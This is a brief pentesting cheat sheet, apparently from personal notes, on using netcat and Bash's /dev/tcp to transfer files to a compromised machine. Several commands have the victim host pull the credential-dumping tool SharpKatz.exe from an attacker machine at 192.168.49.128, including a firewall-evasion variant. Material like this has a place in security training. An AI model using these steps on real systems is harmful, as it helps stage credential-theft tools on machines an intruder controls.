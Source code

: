 # NetCat  Transfer

## Download to Target

**Start NetCat on the compromised machine:** Start NetCat (**nc**) on the compromised machine, listening with option `-l`, selecting the port to listen with the option `-p 8000`, and redirect the **stdout** using a single greater-than `>` followed by the filename, `SharpKatz.exe`.

```shell
victim@target[~]$ nc -l -p 8000 > SharpKatz.exe
```

**Send the file to the compromised machine:**

```shell
clue@machine[/]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

## Upload to Target

This method is useful in scenarios where there's a **firewall blocking inbound connections**.

**Start the NetCat listener locally:**

```shell
clue@machine[/]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

**Connect the target to the attacker machine and receive the file:**

```shell
victim@target[~]$ nc 192.168.49.128 443 > SharpKatz.exe
```

## Connect to NetCat via Bash

If **Netcat** or **Ncat** is not available on the compromised machine, **Bash** supports read/write operations on a pseudo-device file `/dev/TCP/`.

Writing to this particular file makes Bash open a TCP connection to host:port, and this feature may be used for file transfers.

```shell
victim@target[~]$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```
